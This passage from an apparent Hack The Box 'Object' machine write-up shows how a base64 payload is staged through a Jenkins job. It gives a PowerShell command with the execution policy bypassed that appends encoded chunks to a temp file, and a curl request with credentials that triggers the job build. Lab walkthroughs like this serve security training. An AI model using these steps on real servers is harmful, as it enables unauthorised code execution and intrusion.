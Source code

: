 





Our fourth command will be:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "Add-Content -Path %TEMP%\resource.temp\efspot.b64 -Value ICAgICAgIC<SNIP>IHB1Ymxp -Encoding ASCII"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_27.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_27.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }


We can now trigger the job again to build with the new command.

```zsh
0x3ds@kali $ curl -X POST -L --user shadows:113cd8cf72a195b55d66f037ad1d0a7331 \
    'http://object.htb:8080/job/shadownedya/build?token=ShadowsAuthToken'

```

We can now refresh our project page and access the Console Output of our newly built job to see that it was successful.
